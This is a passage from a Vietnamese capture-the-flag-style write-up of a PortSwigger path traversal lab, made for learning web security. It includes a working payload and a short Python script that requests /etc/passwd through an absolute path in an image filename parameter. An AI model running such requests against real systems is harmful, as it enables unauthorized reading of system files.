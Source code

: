 để kiểm tra lỗi Path traversal mình đã dùng các dấu **".\./"** để di chuyển lên các thư mục cha của thư mục hiện tại và với mục đích để đọc được file **/etc/passwd**

và mình đã không đọc được file này như bài trước có vẻ như lab này đã có cơ chế chặn hay mã hóa các ký tự "." và "/"

![image](https://hackmd.io/_uploads/HJMV-aLFp.png)

<ul>
    <li>
        và nếu mình không thể dùng đường dẫn tương đối để giải quyết bài này vậy đường dẫn tuyệt đối thì sao?
    </li>
    <li>mình đã thử dùng đường dẫn tuyệt đối đến file /etc/passwd, mình nhận thấy  nó là file nằm trong thư mục root: "/"
    </li>  
</ul>

![image](https://hackmd.io/_uploads/rJZ5f68ta.png)

mình cũng đã viết lại script khai thác :100:

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# from bs4 import BeautifulSoup

url = 'https://0ada00f40345a79481bec56300ea008b.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + '/image?filename=/etc/passwd',
    verify=False,
)

print(response.text) # hiển thị response có flag
```

![image](https://hackmd.io/_uploads/ryRSrTIYp.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải được lab

![image](https://hackmd.io/_uploads/B1wKrTIFT.png)

## 3. Lab: File path traversal, traversal sequences stripped non-recursively

link: https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively
